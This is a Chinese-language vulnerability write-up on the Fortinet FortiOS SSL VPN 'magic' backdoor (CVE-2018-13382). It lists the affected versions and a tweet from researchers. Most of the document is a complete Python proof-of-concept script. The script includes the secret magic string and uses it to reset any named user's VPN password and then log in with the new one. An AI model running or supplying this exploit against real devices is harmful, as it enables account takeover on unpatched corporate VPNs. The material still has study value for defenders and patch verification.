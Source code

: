 （CVE-2018-13382）Fortinet FortiOS magic后门
============================================

一、漏洞简介
------------

Fortinet
FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。
Fortinet FortiOS 6.0.0版本至6.0.4版本
、5.6.0版本至5.6.8版本和5.4.1版本至5.4.10版本中的SSL VPN
Web门户存在授权问题漏洞。该漏洞源于网络系统或产品中缺少身份验证措施或身份验证强度不足。

二、漏洞影响
------------

Fortinet Fortios 6.2 Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.9
Fortinet Fortios 5.4.11

三、复现过程
------------

在登录页面中，我们找到了一个的特殊参数`magic`。一旦这个参数为某个特殊字符串，我们就可以修改任何用户的密码。

![](resource/(CVE-2018-13382)FortinetFortiOSmagic后门/media/rId24.png)

根据我们的调查，仍有大量的Fortigate SSL
VPN缺少补丁。因此，考虑到其严重性，我们不会透露magic字符串。但是，[CodeWhite的研究人员](https://twitter.com/codewhitesec/status/1145967317672714240)已经复现了这个漏洞。毫无疑问，其他攻击者很快就会利用此漏洞！请尽快更新您的Fortigate！

> Critical vulns in
> [\#FortiOS](https://twitter.com/hashtag/FortiOS?src=hash&ref_src=twsrc%5Etfw)
> reversed & exploited by our colleagues
> [\@niph\_](https://twitter.com/niph_?ref_src=twsrc%5Etfw) and
> [\@ramoliks](https://twitter.com/ramoliks?ref_src=twsrc%5Etfw) - patch
> your
> [\#FortiOS](https://twitter.com/hashtag/FortiOS?src=hash&ref_src=twsrc%5Etfw)
> asap and see the
> [\#bh2019](https://twitter.com/hashtag/bh2019?src=hash&ref_src=twsrc%5Etfw)
> talk of
> [\@orange\_8361](https://twitter.com/orange_8361?ref_src=twsrc%5Etfw)
> and [\@mehqq\_](https://twitter.com/mehqq_?ref_src=twsrc%5Etfw) for
> details (tnx guys for the teaser that got us started)
> [pic.twitter.com/TLLEbXKnJ4](https://t.co/TLLEbXKnJ4)
>
> --- Code White GmbH (\@codewhitesec)
> [2019年7月2日](https://twitter.com/codewhitesec/status/1145967317672714240?ref_src=twsrc%5Etfw)

### poc

https://github.com/ianxtianxt/CVE-2018-13382

    $ python CVE-2018-13382.py  -h
    Usage: CVE-2018-13382.py [options]

    Options:
      -h, --help   show this help message and exit
      -i IP        e.g. 127.0.0.1:10443
      -u USERNAME  
      -p PASSWORD  
    import requests, binascii, optparse, sys
    from urlparse import urlparse
    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    requests.packages.urllib3.disable_warnings()
    import multiprocessing
    import colored
    from user_agent import generate_user_agent, generate_navigator
    bold=True

    userAgent=generate_user_agent()
    username=""
    newpassword=""
    ip=""

    def setColor(message, bold=False, color=None, onColor=None):
        from termcolor import colored, cprint
        retVal = colored(message, color=color, on_color=onColor, attrs=("bold",))
        return retVal

    def checkIP(ip):
        try:
            url = "https://"+ip+"/remote/login?lang=en"
            headers = {"User-Agent": userAgent, "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
            r=requests.get(url, headers=headers, verify=False)
            if r.status_code==200 and "<title>Please Login</title>" in r.text:
                return True
            else:
                return False
        except requests.exceptions.ConnectionError as e:
            print e
            return False

    def changePassword(ip,username,newpassword):
        url = "https://"+ip+"/remote/logincheck"
        headers = {"User-Agent": userAgent, "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://"+ip+"/remote/login?lang=en", "Pragma": "no-cache", "Cache-Control": "no-store, no-cache, must-revalidate", "If-Modified-Since": "Sat, 1 Jan 2000 00:00:00 GMT", "Content-Type": "text/plain;charset=UTF-8", "Connection": "close"}
        data = {"ajax": "1", "username": username, "realm": '', "credential": newpassword, "magic": "4tinet2095866", "reqid": "0", "credential2": newpassword}
        r=requests.post(url, headers=headers, data=data, verify=False)
        if r.status_code==200 and 'redir=/remote/hostcheck_install' in r.text:
            return True
        else:
            return False

    def testLogin(ip,username,newpassword):
        url = "https://"+ip+"/remote/logincheck"
        headers = {"User-Agent": userAgent, "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://"+ip+"/remote/login?lang=en", "Pragma": "no-cache", "Cache-Control": "no-store, no-cache, must-revalidate", "If-Modified-Since": "Sat, 1 Jan 2000 00:00:00 GMT", "Content-Type": "text/plain;charset=UTF-8", "Connection": "close"}
        data = {"ajax": "1", "username": username, "realm": '', "credential": newpassword}
        r=requests.post(url, headers=headers, data=data, verify=False)
        if r.status_code==200 and"redir=/remote/hostcheck_install" in r.text:
                return True
        else:
            return False

    parser = optparse.OptionParser()
    parser.add_option('-i', action="store", dest="ip", help="e.g. 127.0.0.1:10443")
    parser.add_option('-u', action="store", dest="username")
    parser.add_option('-p', action="store", dest="password")
    options, remainder = parser.parse_args()
    if not options.username or not options.password or not options.ip:
        print "[!] Please provide the ip (-i), username (-u) and password (-p)"
        sys.exit()
    if options.username:
        username=options.username
    if options.password:
        newpassword=options.password
    if options.ip:
        ip=options.ip
    tmpStatus=checkIP(ip)
    if tmpStatus==True:
        print "[*] Checking if target is a Fortigate device "+setColor(" [OK]", bold, color="green")
        if changePassword(ip,username,newpassword)==True:
            print "[*] Using the magic keyword to change password for: ["+username+"]"+setColor(" [OK]", bold, color="green")   
            if testLogin(ip,username,newpassword)==True:
                print "[*] Testing new credentials ["+username+"|"+newpassword+"] "+setColor(" [OK]", bold, color="green")
                print "************** Enjoy your new credentials **************\n"
            else:
                print "[*] Testing new credentials ["+username+"|"+newpassword+"] "+setColor(" [NOK]", bold, color="red")
        else:
            print "[*] Using the magic keyword to change password for: ["+username+"]"+setColor(" [NOK]", bold, color="red")            
    else:
        print "[*] Checking if target is a Fortigate device "+setColor(" [NOK]", bold, color="red")
